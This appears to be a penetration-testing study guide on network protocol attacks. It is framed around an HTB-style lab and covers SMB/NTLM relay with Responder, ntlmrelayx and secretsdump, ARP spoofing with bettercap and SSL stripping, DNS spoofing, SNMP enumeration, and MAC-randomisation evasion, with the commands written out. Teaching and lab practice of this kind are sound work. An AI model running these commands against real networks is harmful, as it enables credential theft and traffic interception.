



----
# Network Protocol Attacks
---

## Overview

Network protocol attacks target weaknesses in Layer 2–4 communication protocols such as Address Resolution Protocol (ARP), Server Message Block (SMB), Domain Name System (DNS), and Simple Network Management Protocol (SNMP). These attacks enable credential harvesting, traffic interception, and lateral movement.

Key focus areas:
- SMB relay attacks (NTLM relay)
- ARP spoofing (Man-in-the-Middle)
- DNS cache poisoning
- SNMP enumeration
- Protocol misconfigurations

---

## Complete Reconnaissance

### Network Service Discovery

```bash
nmap -sC -sV -p- --script vuln 192.168.1.0/24
````

---

### SNMP Enumeration

```bash
onesixtyone -c community.txt 192.168.1.100
```

---

### SNMP Data Extraction

```bash
snmp-check 192.168.1.100
```

---

## SMB Relay Attacks (Credential Harvesting)

### Overview

SMB relay attacks exploit NTLM authentication to relay credentials without cracking passwords. This attack works only when SMB signing is disabled.

---

### Attack Chain



---

### Stage 1: Responder (Poisoning)

```bash
responder -I eth0 -wrf -v -t smb,http,ldap
```

Flags:

* `-I`: Interface
* `-w`: WPAD spoofing
* `-r`: LLMNR/NBT-NS poisoning
* `-f`: Force authentication

---

### Stage 2: NTLM Relay

```bash
ntlmrelayx.py -tf /tmp/targets.txt -smb2support \
-c "whoami /all" \
--no-smb2-encrypt
```

---

### Target File Example

```text
192.168.1.10
192.168.1.20
```

---

### Stage 3: SAM Dump / DCSync

```bash
secretsdump.py DOMAIN/user:password@dc_ip
```

---

### Key Conditions

* SMB signing must be disabled
* Relay to same host is not allowed
* Target must accept NTLM authentication

---

## ARP Spoofing (Man-in-the-Middle)

### Overview

ARP spoofing manipulates the ARP table to redirect traffic through the attacker.

---

### Attack Flow



---

### Bettercap Configuration

```bash
bettercap -iface eth0
```

```bash
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true
set arp.spoof.internal true
arp.spoof on
net.sniff on
http.proxy on
```

---

### SSL Stripping

```bash
set http.proxy.sslstrip true
```

* Downgrades HTTPS to HTTP
* Enables credential capture

---

### Full Duplex Mode

* Poison both:

  * Target → Attacker
  * Gateway → Attacker

---

## DNS Poisoning

### Overview

DNS poisoning injects malicious DNS responses to redirect traffic.

---

### dnsspoof Attack

```bash
dnsspoof -i eth0 dst port 53
```

---

### Kaminsky Attack (Concept)

* Exploits DNS transaction ID prediction
* Floods resolver with fake responses

---

### Birthday Attack

* Sends multiple queries simultaneously
* Increases probability of ID collision

---

## SNMP Exploitation

### Overview

SNMP uses community strings (like passwords).

---

### Common Community Strings

```
public
private
admin
```

---

### Enumeration

```bash
snmp-check 192.168.1.100
```

---

### Impact

* System configuration leakage
* Network mapping
* Credential exposure

---

## Protocol Misconfigurations

### Telnet (Port 23)

```bash
nc target 23
```

* Sends credentials in plaintext

---

### SMBv1

* Vulnerable to exploits like EternalBlue

---

### SNMPv1

* No encryption
* Weak authentication

---

## Protocol Attack Matrix

| Protocol | Attack      | Tool                  | Detection                |
| -------- | ----------- | --------------------- | ------------------------ |
| SMB      | Relay       | Responder, ntlmrelayx | SMB Signing              |
| ARP      | Spoofing    | Bettercap             | Dynamic ARP Inspection   |
| DNS      | Poisoning   | dnsspoof              | DNSSEC                   |
| SNMP     | Enumeration | snmp-check            | Strong community strings |

---

## Evasion and OPSEC

### MAC Address Randomization

```bash
macchanger -r eth0
```

---

### Timing Attacks

* Slow requests to avoid detection
* Avoid triggering rate limits

---

### IPv6 Tunneling

```bash
6tunnel <port>
```

---

## Advanced Attack Chain (HTB Style)



---

## Lab Exercise

### Scenario

* Target: Internal network (HTB-style lab)

### Steps

1. Run network scan (nmap)
2. Start Responder
3. Capture NTLM hashes
4. Relay using ntlmrelayx
5. Dump credentials (secretsdump)
6. Perform ARP spoofing
7. Capture traffic using Bettercap
8. Document results

---

## Key Takeaways

* SMB relay enables credential reuse without cracking
* ARP spoofing enables full traffic interception
* DNS poisoning redirects users to attacker-controlled servers
* SNMP leaks sensitive configuration data
* Misconfigured protocols are primary attack vectors
* Real-world attacks chain multiple techniques together

---


